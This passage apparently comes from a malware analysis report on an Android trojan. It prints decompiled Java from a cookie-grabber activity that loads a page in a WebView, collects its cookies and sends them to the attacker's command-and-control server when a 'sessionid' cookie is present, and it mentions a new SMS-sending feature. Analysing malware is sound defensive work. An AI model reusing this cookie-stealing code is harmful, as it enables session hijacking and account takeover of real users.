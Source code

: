 When the page finishes loading (onPageFinished), it grabs cookies from the page using CookieManager, processes them, and sends them to the C2 if they contain a `sessionid` cookie.

```java
    protected void onStart() {
        super.onStart();
        this.context = this;
        try {
            WebView webView = new WebView(this);
            this.wv = webView;
            webView.getSettings().setJavaScriptEnabled(true);
            this.wv.setWebViewClient(new WebViewClient() { // from class: org.securitypolicies.setup.activities.CookieGrabberActivity.1
                @Override // android.webkit.WebViewClient
                public void onPageFinished(WebView webView2, String str) {
                    String cookie = CookieManager.getInstance().getCookie(str);
                    String[] split = CookieManager.getInstance().getCookie(str).replace(";", HttpUrl.FRAGMENT_ENCODE_SET).split(" ");
                    if (cookie.contains("sessionid")) {
                        try {
                            JSONObject jSONObject = new JSONObject();
                            for (String str2 : split) {
                                String[] split2 = str2.split("=");
                                jSONObject.put(split2[0], split2[1]);
                                UtilGlobal.Log(CookieGrabberActivity.TAG, "cookie is = " + jSONObject);
                            }
                            UtilGlobal.sendCookies(jSONObject.toString());
                        } catch (Exception e) {
                            UtilGlobal.sendCookies("cookiesGrabbingFailed");
                            UtilGlobal.Log(CookieGrabberActivity.TAG, "Cookie Grabber Error: " + e.getMessage());
                        }
                    }
                }
            });
            this.wv.addJavascriptInterface(new WebAppInterface(this), "Android");
            this.wv.loadUrl(Constants.CookiesURL);
            setContentView(this.wv);
            ((InputMethodManager) this.context.getSystemService("input_method")).restartInput(this.wv);
            UtilGlobal.settingsWriteBoolean(this, "accessibilityProcessingEnabled", false);
        } catch (Exception e) {
            e.printStackTrace();
            finish();
        }
    }
```

#### 5- SMS Utils (Added Feature)

in addition to its previous capability of grabbing SMS, now it can send an SMS to a target phone number.
